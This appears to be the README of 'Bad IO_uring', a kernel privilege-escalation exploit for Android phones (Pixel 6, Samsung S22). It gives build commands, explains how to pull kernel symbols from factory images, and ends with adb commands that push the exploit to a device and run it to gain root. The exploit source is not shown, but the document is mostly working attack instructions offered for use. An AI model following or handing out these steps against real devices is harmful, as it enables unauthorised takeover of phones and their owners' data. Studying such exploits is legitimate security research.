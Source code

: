 # Bad IO_uring
## Build the exploit

Make sure the [Android NDK](https://developer.android.com/ndk) is installed. For pixel 6,
```bash
make pixel
```

For samsung s22,
```bash
make s22
```

## How to use the exploit
The exploit is written to support different versions of kernels. In order to port the exploit to a different kernel, you need to extract the symbol file of the target kernel.

The kernel could be extract from the factory image of the phone. For Pixels, download the factory image [here](https://developers.google.com/android/images).

After downloading the image, extract the image to get `boot.img` file. `boot.img` can be extracted with `tools/unpack_bootimg.py`.
```bash
python3 tools/unpack_bootimg.py --boot_img boot.img --out out
```
You will see the kernel at `out/kernel`


Now, with the kernel image, we can use [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) to extract kernel symbols from it.
```
./tools/vmlinux-to-elf/kallsyms-finder out/kernel > pixel.kallsyms
```

You have to make sure the `Version string` extracted in the symbol matches your phone's kernel version. The kernel version of the phone could be looked up through `adb`. For example,

```
sh-3.2$ adb shell
oriole:/ $ uname -a
Linux localhost 5.10.66-android12-9-00007-g66c74c58ab38-ab8262750 #1 SMP PREEMPT Mon Mar 7 01:27:36 UTC 2022 aarch64
```
matches 
```
[+] Version string: Linux version 5.10.66-android12-9-00007-g66c74c58ab38-ab8262750 (build-user@build-host) (Android (7284624, based on r416183b) clang version 12.0.5 (https://android.googlesource.com/toolchain/llvm-project c935d99d7cf2016289302412d708641d52d2f7ee), LLD 12.0.5 (/buildbot/src/android/llvm-toolchain/out/llvm-project/lld c935d99d7cf2016289302412d708641d52d2f7ee)) #1 SMP PREEMPT Mon Mar 7 01:27:36 UTC 2022
```

Now you can push the exploit and the symbol file to the phone and get it rooted with the following commands.

```bash
make
adb push exp pixel.kallsyms /data/local/tmp
adb shell
cd /data/local/tmp
./exp pixel.kallsyms
```

